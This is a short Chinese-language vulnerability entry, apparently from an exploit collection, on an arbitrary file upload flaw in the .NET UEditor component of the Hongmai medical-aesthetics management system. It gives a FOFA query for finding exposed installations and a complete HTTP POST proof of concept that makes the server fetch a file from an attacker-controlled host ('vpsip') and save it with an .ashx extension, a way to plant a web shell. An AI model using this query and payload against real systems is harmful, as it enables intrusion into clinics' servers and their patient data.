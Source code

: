## 宏脉医美行业管理系统UEditor编辑器存在文件上传漏洞

宏脉医美行业管理系统是由宏脉信息技术（广州）股份有限公司开发的一款服务于医美行业管理服务的系统.宏脉医美行业管理系统使用了UEditor编辑器，Ueditor是百度开发的一个网站编辑器，目前已经不对其进行后续开发和更新，该漏洞只存在于该编辑器的.net版本。其他的php,jsp,asp版本不受此UEditor的漏洞的影响，.net存在任意文件上传，绕过文件格式的限制，在获取远程资源的时候并没有对远程文件的格式进行严格的过滤与判断。

## fofa

```
title="宏脉医美行业管理系统"
```

## poc

```
POST /content/Js/ueditor/net/controller.ashx?action=catchimage HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: null
Connection: close
Cookie: ASP.NET_SessionId=mzare1hg1ewzaxhakacjhfo0
Upgrade-Insecure-Requests: 1

source[]=http://vpsip/1.png?.ashx
```


